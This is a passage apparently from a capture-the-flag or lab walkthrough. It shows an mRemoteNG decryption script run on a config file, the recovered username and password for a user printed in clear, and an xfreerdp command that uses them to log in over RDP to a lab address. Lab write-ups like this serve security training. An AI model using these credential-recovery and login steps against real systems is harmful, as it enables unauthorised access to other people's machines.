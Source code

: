 Decrypting the password.

```bash
python3 mremoteng_decrypt.py config.xml
```

![image.png](../images/lock%2022.png)

> We did it we got the password of the user Gale
username: Gale.Dekarios
password: ty8wnW9qCKDosXo6
> 

Now let’s try to login using RDP

```bash
xfreerdp /u:Gale.Dekarios /p:ty8wnW9qCKDosXo6 /v:10.10.111.177
```

![image.png](../images/lock%2023.png)
